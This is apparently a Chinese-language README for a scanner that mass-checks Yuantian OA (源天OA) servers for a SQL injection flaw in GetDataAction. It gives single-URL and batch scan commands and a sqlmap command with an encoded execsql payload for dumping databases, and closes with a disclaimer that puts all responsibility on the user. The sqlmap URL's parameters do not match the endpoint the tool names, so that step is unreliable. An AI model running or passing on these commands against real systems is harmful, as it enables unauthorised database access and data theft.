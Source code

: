# yuantian_sql
源天OA GetDataAction SQL注入漏洞批量扫描

## 工具利用

python3 yuantian_sql_scan.py -u http://127.0.0.1:1111 单个url测试

python3 yuantian_sql_scan.py -f url.txt 批量检测
![](./1.png)
扫描结束后会在当前目录生成vuln.txt记录存在漏洞的url


sql注入执行
python sqlmap.py -u "https://xxx.xxx.xxx.xxx/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5" --dbs
![](./sql1.png)
![](./sql2.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
